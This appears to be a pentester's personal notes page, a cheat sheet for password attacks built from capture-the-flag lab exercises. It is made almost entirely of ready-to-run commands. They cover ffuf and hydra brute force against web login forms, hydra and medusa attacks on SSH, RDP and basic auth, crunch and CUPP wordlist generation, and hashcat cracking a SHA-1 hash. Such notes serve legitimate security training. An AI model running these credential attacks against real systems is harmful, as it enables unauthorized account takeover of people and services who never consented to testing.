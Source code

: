 ````shell
ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://MACHINE_IP/customers/login -fc 200
````

#ffuf 

Word list: [[Automated Discovery]]

```bash
hydra -l milesdyson -P log1.txt $ip http-post-form "/squirrelmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^:incorrect" -t 20
```
or success condition: :S=302 or :S=Dashboard
failure condition :F=Invalid

```shell
 hydra -L top-usernames-shortlist.txt -P 2023-200_most_used_passwords.txt -f 94.237.53.230 -s 30768 http-post-form "/:username=^USER^&password=^PASS^:F=Invalid credentials"
```


Multiple targets:
```shell
hydra -l root -p toor -M targets.txt ssh
```

#hydra


#### Default passwords:

- [https://cirt.net/passwords](https://cirt.net/passwords)
- https://default-password.info/
- https://datarecovery.com/rd/default-passwords/

https://wiki.skullsecurity.org/index.php?title=Passwords

#### Generate passwords:

`crunch 8 8 0123456789abcdefABCDEF -o crunch.txt` the file generated is 459 GB and contains 54875873536 words.

crunch also lets us specify a character set using the -t option to combine words of our choice. Here are some of the other options that could be used to help create different combinations of your choice:  

@ - lower case alpha characters

, - upper case alpha characters

% - numeric characters

^ - special characters including space

`user@thm$  crunch 6 6 -t pass%%`
           
Crunch will now generate the following amount of data: 700 bytes 0 MB 0 GB 0 TB 0 PB Crunch will now generate the following number of lines: 100 pass00 pass01 pass02 pass03`


### Username anarchy
```shell
sudo apt install ruby -y
git clone https://github.com/urbanadventurer/username-anarchy.git
cd username-anarchy

./username-anarchy Jane Smith > jane_smith_usernames.txt
```

### CUPP - Common User Passwords Profiler
Generates passwords based on personal info (name, nickname, birthday, etc.)
```shell
sudo apt install cupp -y

cupp -i
```



detect hash type
`λ kali ~ → hashid 8d6e34f987851aa599257d3831a1af040886842f`


dict based attack on sha-1
`λ kali ~ → hashcat -m 100 -a 0 8d6e34f987851aa599257d3831a1af040886842f /usr/share/wordlists/rockyou.txt`

#### Bruteforce ssh
```bash
 hydra -L users.txt -P passwords.txt 10.129.131.97 ssh
 ```

#### Generate passwords of charset and from 6 to 8 chars:
```shell
hydra -l administrator -x 6:8:abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789 192.168.1.100 rdp
```

#### Bruteforce basic auth
```shell
hydra -l basic-auth-user -P 2023-200_most_used_passwords.txt 127.0.0.1 http-get / -s 81
```

#### Medusa

```shell
 medusa -h 192.168.0.100 -U usernames.txt -P passwords.txt -M ssh 
```

```shell-session
la1n23@htb[/htb]$ medusa -H web_servers.txt -U usernames.txt -P passwords.txt -M http -m GET 
```

 Perform additional checks for empty passwords (`-e n`) and passwords matching the username (`-e s`).
```shell
medusa -h 10.0.0.5 -U usernames.txt -e ns -M service_name
```
